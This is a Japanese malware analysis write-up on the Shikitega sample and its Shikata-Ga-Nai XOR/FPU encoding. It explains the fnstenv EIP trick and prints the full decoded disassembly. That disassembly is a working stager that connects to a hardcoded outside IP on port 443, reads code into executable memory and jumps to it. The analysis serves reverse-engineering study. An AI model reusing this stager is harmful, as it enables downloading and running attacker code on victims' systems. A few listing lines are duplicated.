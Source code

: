 # Shikata-Ga-Nai(Zutto_DEkiru)
## Sample Malware
- malware : shikitega
- MD5 hash : d1cd3293ac4b312e0b3218e80376bd88
- entry point : 0x8048054
- file size : 431 byte
- URL : [shikitega](https://bazaar.abuse.ch/sample/0233dcf6417ab33b48e7b54878893800d268b9b6e5ca6ad852693174226e3bed/)
## Reference page
- URL1 : [MANDIANT](https://www.mandiant.com/resources/blog/shikata-ga-nai-encoder-still-going-strong)
- URL2 : [Decode Shikata-Ga-Nai with binary ninja](https://medium.com/@acheron2302/writing-binary-ninja-plugin-to-decode-shikata-ga-nai-part-1-df8ceda67fd7)
## Shikata-Ga-Nai Features
- 古いFPU命令を使用してアドレスを算出
- 初期化フェーズについては、特別な実行順序はないが、以下の動作絵を行う。
1. キーを初期化しレジスタに保存
1. FPU命令を使用しEIPを取得
1. デコードする必要があるdwordの数のカウンタを取得
1. （場合によっては開始位置が+4だけずれることもある）
- ```fnstenv```命令は、直前に実行されたFPU命令のアドレスを```[esp-0xc]```に格納する。（[参考ページ](https://inaz2.hatenablog.com/entry/2014/07/15/023104)）
```
$ objdump -M intel -d a.out 
00001000 <_start>:
    1000:	d9 d0                	fnop   
    1002:	d9 74 24 f4          	fnstenv [esp-0xc]
    1006:	58                   	pop    eax
    1007:	cc                   	int3   
sansforensics@siftworkstation: ~
$ gdb ./a.out 
(gdb) r
Starting program: /home/sansforensics/a.out 

Program received signal SIGTRAP, Trace/breakpoint trap.
0x56556008 in ?? ()
(gdb) disas _start
Dump of assembler code for function _start:
   0x56556000 <+0>:	fnop   
   0x56556002 <+2>:	fnstenv -0xc(%esp)
   0x56556006 <+6>:	pop    %eax
   0x56556007 <+7>:	int3   
End of assembler dump.
(gdb) i r eax
eax            0x56556000          1448435712
```
- 排他的論理和を使用してペイロードを復号する。
## Analyze Shikata-Ga-Nai encoded malware
- ```Shikata-Ga-Nai```によてエンコードされたマルウェアの初期動作
```
   0x08048054:	mov    edx,0xa7bc0447
   0x08048059:	fcmove st,st(4)                    ;FPU instruction for geting eip
   0x0804805b:	fnstenv [esp-0xc]                  ;Get eip
   0x0804805f:	pop    eax
   0x08048060:	sub    ecx,ecx
   0x08048062:	mov    cl,0x51                     ;count=0x51
   0x08048064:	xor    DWORD PTR [eax+0x12],edx
   0x08048067:	add    eax,0x4
   0x0804806a:	add    edx,DWORD PTR [edi]
   0x0804806c:	or     bl,BYTE PTR [esi+0x52]
   0x0804806f:	sub    BYTE PTR ds:0x915df5ac,ah
```
### Deployment
- Algolithm : xor SomeVals
- SomeVals : 今回は初期値に排他的論理和を実行する前の自身の値を加算したのちにデコードを行っている。
```
   0x8048064:	xor    DWORD PTR [eax+0x12],edx
   0x8048067:	add    eax,0x4
   0x804806a:	add    edx,DWORD PTR [eax+0xe]
```
- target address : 0x804806b
- termina addrsee : 0x80481ab
- ```0x0804807f```のdestinationが```DWORD PTR [esi+0x13]```になっている場合はデコードに失敗している。
- 以降複数回のデコードが発生する
- after deployment
```
   0x08048054:	mov    edx,0xa7bc0447
   0x08048059:	fcmove st,st(4)
   0x0804805b:	fnstenv [esp-0xc]
   0x0804805f:	pop    eax
   0x08048060:	sub    ecx,ecx
   0x08048062:	mov    cl,0x51
   0x08048064:	xor    DWORD PTR [eax+0x12],edx
   0x08048067:	add    eax,0x4
   0x0804806a:	add    edx,DWORD PTR [eax+0xe]
   0x0804806d:	loop   0x8048064
   0x0804806f:	mov    edi,0xb683237
   0x08048074:	fcmovnb st,st(3)
   0x08048076:	fnstenv [esp-0xc]
   0x0804807a:	pop    eax
   0x0804807b:	xor    ecx,ecx
   0x0804807d:	mov    cl,0x4a
   0x0804807f:	xor    DWORD PTR [eax+0x13],edi
   0x08048082:	sub    eax,0xfffffffc
   0x08048085:	add    edi,DWORD PTR [eax+0xf]
   0x08048088:	loop   0x804807f
   0x0804808a:	fcmovne st,st(3)
   0x0804808c:	mov    edx,0x6af194e5
   0x08048091:	fnstenv [esp-0xc]
   0x08048095:	pop    ebp
   0x08048096:	xor    ecx,ecx
   0x08048098:	mov    cl,0x43
   0x0804809a:	xor    DWORD PTR [ebp+0x19],edx
   0x0804809d:	add    edx,DWORD PTR [ebp+0x19]
   0x080480a0:	sub    ebp,0xfffffffc
   0x080480a3:	loop   0x804809a
   0x080480a5:	mov    eax,0x1068a5e8
   0x080480aa:	fcmovne st,st(7)
   0x080480ac:	fnstenv [esp-0xc]
   0x080480b0:	pop    ebx
   0x080480b1:	xor    ecx,ecx
   0x080480b3:	mov    cl,0x3c
   0x080480b5:	add    ebx,0x4
   0x080480b8:	xor    DWORD PTR [ebx+0x11],eax
   0x080480bb:	add    eax,DWORD PTR [ebx+0x11]
   0x080480be:	loop   0x80480b5
   0x080480c0:	mov    edx,0xfd3089b0
   0x080480c5:	fcmovnb st,st(4)
   0x080480c7:	fnstenv [esp-0xc]
   0x080480cb:	pop    esi
   0x080480cc:	sub    ecx,ecx
   0x080480ce:	mov    cl,0x36
   0x080480d0:	add    esi,0x4
   0x080480d3:	xor    DWORD PTR [esi+0xe],edx
   0x080480d6:	add    edx,DWORD PTR [esi+0xe]
   0x080480d9:	loop   0x80480d0
   0x080480db:	mov    esi,0x35c3c885
   0x080480e0:	fincstp 
   0x080480e2:	fnstenv [esp-0xc]
   0x080480e6:	pop    edx
   0x080480e7:	xor    ecx,ecx
   0x080480e9:	mov    cl,0x2f
   0x080480eb:	xor    DWORD PTR [edx+0x13],esi
   0x080480ee:	add    esi,DWORD PTR [edx+0x13]
   0x080480f1:	sub    edx,0xfffffffc
   0x080480f4:	loop   0x80480eb
   0x080480f6:	mov    eax,0x59a96d9c
   0x080480fb:	fcmovnbe st,st(5)
   0x080480fd:	fnstenv [esp-0xc]
   0x08048101:	pop    ebp
   0x08048102:	xor    ecx,ecx
   0x08048104:	mov    cl,0x28
   0x08048104:	mov    cl,0x28
   0x08048106:	add    ebp,0x4
   0x08048109:	xor    DWORD PTR [ebp+0x10],eax
   0x0804810c:	add    eax,DWORD PTR [ebp+0x10]
   0x0804810f:	loop   0x8048106
   0x08048111:	push   0x2
   0x08048113:	pop    eax
   0x08048114:	int    0x80
   0x08048116:	test   eax,eax
   0x08048118:	je     0x8048120
   0x0804811a:	xor    eax,eax
   0x0804811c:	mov    al,0x1
   0x0804811e:	int    0x80
   0x08048120:	mov    al,0x42
   0x08048122:	int    0x80
   0x08048122:	int    0x80
   0x08048124:	push   0x2
   0x08048126:	pop    eax
   0x08048127:	int    0x80
   0x08048129:	test   eax,eax
   0x0804812b:	jne    0x804811a
   0x0804812d:	push   0xa
   0x0804812f:	pop    esi
   0x08048130:	xor    ebx,ebx
   0x08048132:	mul    ebx
   0x08048134:	push   ebx
   0x08048135:	inc    ebx
   0x08048136:	push   ebx
   0x08048137:	push   0x2
   0x08048139:	mov    al,0x66
   0x0804813b:	mov    ecx,esp
   0x0804813d:	int    0x80
   0x0804813f:	xchg   edi,eax
   0x08048140:	pop    ebx
   0x08048141:	push   0x71365f8d
   0x08048146:	push   0xbb010002
   0x0804814b:	mov    ecx,esp
   0x0804814d:	push   0x66
   0x0804814f:	pop    eax
   0x08048150:	push   eax
   0x08048151:	push   ecx
   0x08048152:	push   edi
   0x08048153:	mov    ecx,esp
   0x08048155:	inc    ebx
   0x08048156:	int    0x80
   0x08048158:	test   eax,eax
   0x0804815a:	jns    0x8048175
   0x0804815c:	dec    esi
   0x0804815d:	je     0x804819c
   0x0804815f:	push   0xa2
   0x08048164:	pop    eax
   0x08048165:	push   0x0
   0x08048167:	push   0x5
   0x08048169:	mov    ebx,esp
   0x0804816b:	xor    ecx,ecx
   0x0804816d:	int    0x80
   0x0804816f:	test   eax,eax
   0x08048171:	jns    0x8048130
   0x08048173:	jmp    0x804819c
   0x08048175:	mov    dl,0x7
   0x08048177:	mov    ecx,0x1000
   0x0804817c:	mov    ebx,esp
   0x0804817e:	shr    ebx,0xc
   0x08048181:	shl    ebx,0xc
   0x08048184:	mov    al,0x7d
   0x08048186:	int    0x80
   0x08048188:	test   eax,eax
   0x0804818a:	js     0x804819c
   0x0804818c:	pop    ebx
   0x0804818d:	mov    ecx,esp
   0x0804818f:	cdq    
   0x08048190:	mov    dl,0x6a
   0x08048192:	mov    al,0x3
   0x08048194:	int    0x80
   0x08048196:	test   eax,eax
   0x08048198:	js     0x804819c
   0x0804819a:	jmp    ecx
   0x0804819c:	mov    eax,0x1
   0x080481a1:	mov    ebx,0x1
   0x080481a6:	int    0x80
   0x080481a8:	xor    ebx,ebx
   0x080481aa:	push   0x1
   0x080481ac:	pop    eax
   0x080481ad:	int    0x80
```
## その他のアイディア
```Shikata-Ga-Nai```エンコーダの背景知識
### FPU命令
